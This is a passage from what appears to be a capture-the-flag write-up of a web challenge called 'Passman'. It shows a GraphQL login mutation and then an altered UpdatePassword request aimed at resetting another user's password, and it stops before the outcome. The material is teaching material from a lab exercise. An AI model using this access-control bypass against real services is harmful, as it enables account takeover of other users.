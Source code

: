 This means that if it lets us send a "mutation" to the database to update a password, it's probably trusting whatever username we give it - so we can probably reset other user's passwords.

I couldn't just copy an existing `updatePassword` request, since that functionality doesn't exist on the website, but I can see what happens when a user logs in. The login request looks like this:

```json
{
    "query": "mutation($username: String!, $password: String!) { LoginUser(username: $username, password: $password) { message, token } }",
    "variables": {
        "username": "mark",
        "password": "abc123"
    }
}
```
I can send this query in Insomnia and it seems to work.

![Passman Screenshot](web-passman/07.png)

So what if I change `LoginUser` to `UpdatePassword`, and see what happens

```json
{
    "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }",
    "variables": {
        "username": "mark",
        "password": "abc123"
    }
}
```
![Passman Screenshot](web-passman/08.png)
